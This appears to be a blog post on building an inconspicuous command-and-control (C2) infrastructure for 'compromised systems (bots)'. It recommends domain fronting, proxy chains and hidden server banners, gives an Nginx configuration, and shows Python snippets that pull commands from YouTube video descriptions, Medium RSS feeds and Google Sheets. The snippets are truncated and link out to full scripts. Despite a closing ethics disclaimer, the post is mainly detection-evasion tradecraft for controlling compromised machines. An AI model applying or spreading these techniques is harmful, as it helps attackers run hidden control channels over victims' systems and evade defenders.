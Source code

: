 ```yaml
---
layout: post
title: "Crafting an Advanced and Inconspicuous C2 Infrastructure"
date: 2024-06-25
categories: security c2
---
```


In today's cybersecurity landscape, creating a Command and Control (C2) infrastructure that is both advanced and inconspicuous is paramount. Whether you're involved in ethical hacking, penetration testing, or other legitimate purposes, your C2 operations must remain undetectable. This blog post explores innovative ways to establish an advanced C2 infrastructure using free platforms such as YouTube, Medium, and Google Sheets. Let's dive into the art of blending in with regular web traffic while maintaining the stealth you need.

### What is a C2 Server?

A C2 (Command and Control) server is a central hub used to send commands to and receive data from compromised systems (bots). For your script to operate effectively and inconspicuously, your C2 server should:
- Host command files for the script to fetch and execute.
- Receive data and status updates from the script.
- Ensure all communications are encrypted and stealthy.

### Setting Up a Stealthy C2 Server

#### 1. Choose a Stealthy Hosting Solution
- **Cloud Providers:** Use reputable cloud providers (AWS, Google Cloud, Azure) with minimal logging and monitoring.
- **Domain Fronting:** Use domain fronting to disguise traffic as legitimate requests to well-known services.
- **Proxy Servers:** Route traffic through multiple proxy servers to obscure the origin and destination.

#### 2. Use HTTPS with Domain Fronting
- **HTTPS:** Ensure all communications are encrypted using HTTPS.
- **Domain Fronting:** Configure your C2 server to use domain fronting. This technique routes traffic through high-reputation domains, making it appear as legitimate traffic.

#### 3. Create a Web Server with Stealth Features
- **Server Software:** Use a lightweight web server like Nginx or Apache.
- **Stealth Configuration:** Configure the server to use inconspicuous URLs and paths. Hide server banners and error messages.

*Example Nginx configuration with stealth features*:

```nginx
server {
    listen 443 ssl;
    server_name mylegitdomain.com;

    ssl_certificate /etc/ssl/certs/mylegitdomain.com.crt;
    ssl_certificate_key /etc/ssl/private/mylegitdomain.com.key;

    location /api {
        proxy_pass http://backend_server;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_hide_header X-Powered-By;
        add_header X-Content-Type-Options nosniff;
        add_header X-Frame-Options DENY;
    }
}
```

#### 4. Implement Encrypted Command and Control
- **Commands Endpoint**: Create an endpoint for fetching commands.
- **Webhook Endpoint**: Create an endpoint for receiving data and status updates.
Example Flask application to handle commands and webhooks:*

[Flask Code Here](https://github.com/Dyst0rti0n/blog-scripts/blob/main/c2-scripts/flask/example.py)

## Free and Inconspicuous C2 Hosting Platforms
#### 1. YouTube: A Video Platform Turned C2 Hub
Imagine leveraging YouTube, the world’s largest video-sharing platform, as your stealthy C2 server. By embedding commands within video descriptions or comments, you can seamlessly blend your C2 operations into the vast sea of YouTube content.

#### Why YouTube?

- **Publicly Accessible**: Easily accessible and free.
- **High Traffic**: Blends in with regular traffic.
= **Dynamic Content**: Regular updates and high engagement.

#### Setting Up:
- **Create a YouTube Channel**: Use an anonymous or nondescript name.
- **Upload Videos**: Include commands in video descriptions or comments.
- **Fetch Commands**: Use the YouTube API to parse the descriptions.

*Example: Fetching Commands from YouTube Descriptions*

```python
from googleapiclient.discovery import build

def get_latest_video_description(api_key, channel_id):
    youtube = build('youtube', 'v3', developerKey=api_key)
    request = youtube.search().list(part='snippet', channelId=channel_id, order='date', maxResults=1)
    response = request.execute()
    
    if response['items']:
        video_id = response['items'][0]['id']['videoId']
        video_request = youtube.videos().list(part='snippet', id=video_id)
        video_response = video_request.execute()
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/youtube-hub)


#### 2. Medium: Blogging with a Hidden Agenda
Medium is a popular platform for sharing ideas and stories, but with a twist, it can become your covert C2 server. By posting commands as blog entries, you can hide in plain sight among the thousands of articles published daily.

#### Why Medium?
- **Public and Free**: Easily accessible and free.
- **Frequent Updates**: Constantly updated with new posts.
- **Anonymity**: Easy to create multiple accounts.

#### Setting Up:
1. **Create a Medium Account**: Use an anonymous or nondescript name.
2. **Post Commands**: Embed commands within blog posts.
3. **Fetch Commands**: Use RSS feeds or web scraping to fetch the latest commands.

*Example: Fetching Blog Posts from Medium*

```python
import feedparser
import time

def get_latest_post(feed_url):
    """
    Fetch the latest blog post from a given Medium RSS feed URL.

    Parameters:
    feed_url (str): The URL of the Medium RSS feed.

    Returns:
    str: The title of the latest blog post if available, otherwise None.
    """
    feed = feedparser.parse(feed_url)
    if feed.entries:
        return feed.entries[0].title
    return None
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/medium-fetcher)

#### 3. Google Sheets: Spreadsheet C2 Mastery
Google Sheets, a ubiquitous tool for collaboration and data storage, can also serve as an inconspicuous C2 server. By using the Google Sheets API, you can store commands and fetch them as needed.

#### Why Google Sheets?
- **Collaboration Tool**: Commonly used for legitimate purposes.
- **API Access**: Easy to fetch and update data programmatically.
- **Free**: Generous free tier for storage and access.

#### Setting Up:
1. **Create a Google Sheet**: Share with a service account for API access.
2. **Post Commands**: Add commands as new rows in the sheet.
3. **Fetch Commands**: Use the Google Sheets API to retrieve commands.

*Example: Fetching Commands from Google Sheets*


```python
import gspread
from oauth2client.service_account import ServiceAccountCredentials
import json
import sys

def get_latest_command(sheet_url, creds_json):
    try:
        scope = ["https://spreadsheets.google.com/feeds", "https://www.googleapis.com/auth/drive"]
        
        creds = ServiceAccountCredentials.from_json_keyfile_name(creds_json, scope)
        client = gspread.authorize(creds)
        
        sheet = client.open_by_url(sheet_url).sheet1
        
        commands = sheet.get_all_records()
        
        if commands:
            return commands[-1]['Command']
        else:
            return None
...
```

[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/google-sheets)

### Conclusion
In an age where cybersecurity measures are becoming increasingly sophisticated, it's essential to think outside the box to stay ahead. Leveraging platforms like YouTube, Medium, and Google Sheets not only provides a cost-effective C2 infrastructure but also helps maintain a low profile. These methods allow your operations to blend seamlessly into the vast digital landscape, reducing the risk of detection.

Remember, with great power comes great responsibility. Ensure that all actions taken are ethical and legal, and that you have explicit permission to operate on any systems you control. Misuse of such technology can lead to severe legal consequences.

Stay stealthy, stay ethical, and continue exploring the boundaries of cybersecurity innovation!